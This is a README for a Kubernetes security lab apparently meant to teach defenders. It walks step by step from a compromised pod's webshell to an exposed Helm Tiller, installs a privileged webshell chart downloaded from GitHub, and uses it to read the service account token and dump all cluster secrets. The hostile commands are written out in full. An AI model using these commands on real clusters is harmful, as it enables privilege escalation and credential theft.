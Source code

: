 # Compromised Container

This scenario demonstrates the potential for privilege escalation and lateral movement as a result of a pod compromise in a Kubernetes cluster with commonly-found configurations leading to full cluster access.

[![asciicast](https://asciinema.org/a/F8NCWjE7Akhtcj8ZUePZmiF8E.svg)](https://asciinema.org/a/F8NCWjE7Akhtcj8ZUePZmiF8E)

NOTE: This scenario will run a compromised container with root access, and it set for demo purposes only. We strongly recommend **NOT RUNNING IT ON A LIVE CLUSTER**

## pre-requisites 
Make sure your cluster is setup following the [instructions here](../env/README.md)

## Lets Hack it

### Setup and install the "compromised container"

1. Apply the yaml located the in compromised-container

```console
kubectl apply -f compromised-container/installation.yaml
```
2. Create a local proxy to reach the "exposed" dashboard service:

```console
kubectl port-forward service/dashboard 8080:8080
```
3. Visit the dashboard by opening http://localhost:8080.
4. Navigate to /webshell and provide the basic auth credentials.

### Look for Helm tiller 

1. Download kubectl 
```console 
export PATH=/tmp:$PATH
cd /tmp; curl -LO https://storage.googleapis.com/kubernetes-release/release/`curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt`/bin/linux/amd64/kubectl; chmod +x kubectl
```
2. Look for tiller deployment running in `kube-system` namespace 
```console
curl -v tiller-deploy.kube-system:44134
```
3. Download the Helm client binary 
```console
cd /tmp; curl -so helm.tar.gz https://get.helm.sh/helm-v2.16.1-linux-amd64.tar.gz; tar zxvf helm.tar.gz; chmod +x linux-amd64/helm; cp linux-amd64/helm .
```
4. Run `helm ls` to test access to tiller 
```console 
helm version --host=tiller-deploy.kube-system:44134
export HELM_HOST=tiller-deploy.kube-system:44134; helm ls
```

### Deploy webshell workload with elevated privileges to Kubernetes 
1. install privileged workload via Helm
```console
curl -sLO https://github.com/bgeesaman/nginx-test/archive/v1.0.0.tar.gz
helm install v1.0.0.tar.gz
```
2. Access the webshell with curl and run commands in the privileged pod as cluster-admin to get the newly created pod's service account token

```console
curl -XPOST -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token" nginx-test.default:8080
```
3. Get a list of all secrets in all namespaces
```console
curl -XPOST -d "cmd=kubectl get secrets -A" nginx-test.default:8080
```
4. Get all secrets 
```console
curl -XPOST -d "cmd=kubectl get secrets -A -o yaml" nginx-test.default:8080
```

```console

  ________                        ________                      
 /  _____/_____    _____   ____   \_____  \___  __ ___________  
/   \  ___\__  \  /     \_/ __ \   /   |   \  \/ // __ \_  __ \ 
\    \_\  \/ __ \|  Y Y  \  ___/  /    |    \   /\  ___/|  | \/ 
 \______  (____  /__|_|  /\___  > \_______  /\_/  \___  >__|    
        \/     \/      \/     \/          \/          \/        
```

## Cleanup

To cleanup run 
```console
kubectl delete -f compromised-container/
```